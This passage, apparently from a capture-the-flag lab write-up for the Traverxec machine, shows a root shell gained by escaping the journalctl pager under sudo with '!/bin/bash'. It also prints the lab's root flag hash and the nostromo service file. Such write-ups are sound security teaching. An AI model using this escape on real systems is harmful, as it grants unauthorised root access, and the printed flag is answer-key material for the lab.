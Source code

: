 This means by prefixing `!`, we can execute any command.<br>
Even we can execute `/bin/bash` with root privilege.
```shell
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Sat 2020-04-11 13:06:12 EDT, end at Sat 2020-04-11 14:21:58 EDT. --
Apr 11 13:06:15 traverxec systemd[1]: Starting nostromo nhttpd server...
Apr 11 13:06:15 traverxec systemd[1]: nostromo.service: Can't open PID file /var/nostromo/logs/nhttp
Apr 11 13:06:16 traverxec nhttpd[458]: started
Apr 11 13:06:16 traverxec nhttpd[458]: max. file descriptors = 1040 (cur) / 1040 (max)
Apr 11 13:06:16 traverxec systemd[1]: Started nostromo nhttpd server.
!/bin/bash
root@traverxec:/home/david/bin#
```

As always, `root.txt` is in the directory `/root`.
```shell
root@traverxec:~# cat root.txt
9aa36a6d76f785dfd320a478f6e0d906
```


## 4. Beyond the root
```shell:/etc/systemd/system/nostromo.service
root@traverxec:/home/david# cat /etc/systemd/system/nostromo.service
[Unit]
Description=nostromo nhttpd server
After=network.target

[Service]
Type=forking
ExecStart=/usr/local/sbin/nhttpd
PIDFile=/var/nostromo/logs/nhttpd.pid
TimeoutSec=30
RestartSec=15s
Restart=always
 
[Install]
WantedBy=multi-user.target
```
